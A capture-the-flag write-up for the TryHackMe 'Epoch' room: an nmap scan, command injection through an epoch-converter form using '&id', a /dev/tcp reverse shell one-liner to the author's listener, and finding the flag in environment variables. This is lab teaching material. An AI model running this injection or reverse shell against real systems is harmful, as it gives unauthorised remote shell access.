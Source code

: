 # THM - Epoch

#### Ip: 10.10.212.63
#### Name: Epoch
#### Rating: Easy

----------------------------------------------------------------------

![epoch.png](../assets/epoch_assets/epoch.png)

```text
Be honest, you have always wanted an online tool that could help you convert UNIX dates and timestamps! Wait... it doesn't need to be online, you say? Are you telling me there is a command-line Linux program that can already do the same thing? Well, of course, we already knew that! Our website actually just passes your input right along to that command-line program!
```

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also user the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/THM/Epoch]
└─$ sudo nmap -p-  --min-rate 10000 10.10.212.63    
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-14 15:18 CDT
Nmap scan report for 10.10.212.63
Host is up (0.12s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 8.15 seconds
```

Lets scan these ports using the `-sV` and `-sC` flags to enumerate versions and to use default Nmap scripts:

```text
┌──(ryan㉿kali)-[~/THM/Epoch]
└─$ sudo nmap -sC -sV 10.10.212.63 -p 22,80                                                      
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-14 15:18 CDT
Nmap scan report for 10.10.212.63
Host is up (0.12s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e324b8a2ae2ed2dfe755aa470ea10b33 (RSA)
|   256 26a2d32e0f3a6c3a846912db69dafbe5 (ECDSA)
|_  256 0393301c8c44d5d995094ea45a917190 (ED25519)
80/tcp open  http
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Date: Mon, 14 Aug 2023 20:18:30 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 1184
|     Connection: close
|     <!DOCTYPE html>
|     <head>
|     <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css"
|     integrity="sha384-JcKb8q3iqJ61gNV9KGb8thSsNjpSL0n8PARn9HuZOnIxN0hoP+VmmDGMN5t9UJ0Z" crossorigin="anonymous">
|     <style>
|     body,
|     html {
|     height: 100%;
|     </style>
|     </head>
|     <body>
|     <div class="container h-100">
|     <div class="row mt-5">
|     <div class="col-12 mb-4">
|     class="text-center">Epoch to UTC convertor 
|     </h3>
|     </div>
|     <form class="col-6 mx-auto" action="/">
|     <div class=" input-group">
|     <input name="epoch" value="" type="text" class="form-control" placeholder="Epoch"
|   HTTPOptions, RTSPRequest: 
|     HTTP/1.1 405 Method Not Allowed
|     Date: Mon, 14 Aug 2023 20:18:30 GMT
|     Content-Type: text/plain; charset=utf-8
|     Content-Length: 18
|     Allow: GET, HEAD
|     Connection: close
|_    Method Not Allowed
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.93%I=7%D=8/14%Time=64DA8C17%P=aarch64-unknown-linux-gnu%
SF:r(GetRequest,529,"HTTP/1\.1\x20200\x20OK\r\nDate:\x20Mon,\x2014\x20Aug\
SF:x202023\x2020:18:30\x20GMT\r\nContent-Type:\x20text/html;\x20charset=ut
SF:f-8\r\nContent-Length:\x201184\r\nConnection:\x20close\r\n\r\n<!DOCTYPE
SF:\x20html>\n\n<head>\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20hre
SF:f=\"https://stackpath\.bootstrapcdn\.com/bootstrap/4\.5\.2/css/bootstra
SF:p\.min\.css\"\n\x20\x20\x20\x20\x20\x20\x20\x20integrity=\"sha384-JcKb8
SF:q3iqJ61gNV9KGb8thSsNjpSL0n8PARn9HuZOnIxN0hoP\+VmmDGMN5t9UJ0Z\"\x20cross
SF:origin=\"anonymous\">\n\x20\x20\x20\x20<style>\n\x20\x20\x20\x20\x20\x2
SF:0\x20\x20body,\n\x20\x20\x20\x20\x20\x20\x20\x20html\x20{\n\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20height:\x20100%;\n\x20\x20\x20\x20\
SF:x20\x20\x20\x20}\n\x20\x20\x20\x20</style>\n</head>\n\n<body>\n\x20\x20
SF:\x20\x20<div\x20class=\"container\x20h-100\">\n\x20\x20\x20\x20\x20\x20
SF:\x20\x20<div\x20class=\"row\x20mt-5\">\n\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20<div\x20class=\"col-12\x20mb-4\">\n\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20<h3\x20class=\"text-center
SF:\">Epoch\x20to\x20UTC\x20convertor\x20\xe2\x8f\xb3</h3>\n\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20</div>\n\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20<form\x20class=\"col-6\x20mx-auto\"\x20action=\"/\">
SF:\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20<div\
SF:x20class=\"\x20input-group\">\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20<input\x20name=\"epoch\"\x20val
SF:ue=\"\"\x20type=\"text\"\x20class=\"form-control\"\x20placeholder=\"Epo
SF:ch\"\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20")%r(HTTPOptions,BC,"HTTP/1\.1\x20405\x20Method\x20Not\x20Allowe
SF:d\r\nDate:\x20Mon,\x2014\x20Aug\x202023\x2020:18:30\x20GMT\r\nContent-T
SF:ype:\x20text/plain;\x20charset=utf-8\r\nContent-Length:\x2018\r\nAllow:
SF:\x20GET,\x20HEAD\r\nConnection:\x20close\r\n\r\nMethod\x20Not\x20Allowe
SF:d")%r(RTSPRequest,BC,"HTTP/1\.1\x20405\x20Method\x20Not\x20Allowed\r\nD
SF:ate:\x20Mon,\x2014\x20Aug\x202023\x2020:18:30\x20GMT\r\nContent-Type:\x
SF:20text/plain;\x20charset=utf-8\r\nContent-Length:\x2018\r\nAllow:\x20GE
SF:T,\x20HEAD\r\nConnection:\x20close\r\n\r\nMethod\x20Not\x20Allowed");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 106.51 seconds
```

Heading over to the site on port 80 we find a "Epoch to UTC convertor"

![site.png](../assets/epoch_assets/site.png)

The instructions mention "Our website actually just passes your input right along to that command-line program!" so I'm wondering if we can get command execution here.

Trying the command `id` fails, but if I enter `&id` id can print the user challenge's id:

![challenge.png](../assets/epoch_assets/challenge.png)

Nice! This should be easily exploitable. 

Lets head over to https://www.revshells.com/ and grab a reverse shell one-liner:

```text
sh -i >& /dev/tcp/10.6.61.45/443 0>&1
```

We can execute it with:

![shell.png](../assets/epoch_assets/shell.png)

You'll notice the page just hangs, that's a good sign!


Checking our netcat listener, we've got a shell back:

```text
┌──(ryan㉿kali)-[~/THM/Epoch]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.6.61.45] from (UNKNOWN) [10.10.212.63] 59238
sh: 0: can't access tty; job control turned off
$ whoami
challenge
$ hostname
e7c1352e71ec
```

Lets get a better command prompt by issuing:

```text
$ /usr/bin/script -qc /bin/bash /dev/null
```

Looking around the box, I didn't see much in terms of finding the hidden flag. Taking a look at the hint for the flag I find:

```text
The developer likes to store data in environment variables, can you find anything of interest there?
```

Weird, I never would have thought to check that. 

We can take a look at environment variables by running `printenv`

Which  gives us our flag:

![flag.png](../assets/epoch_assets/flag.png)

Thanks for following along!

-Ryan

-------------------------------------------------------

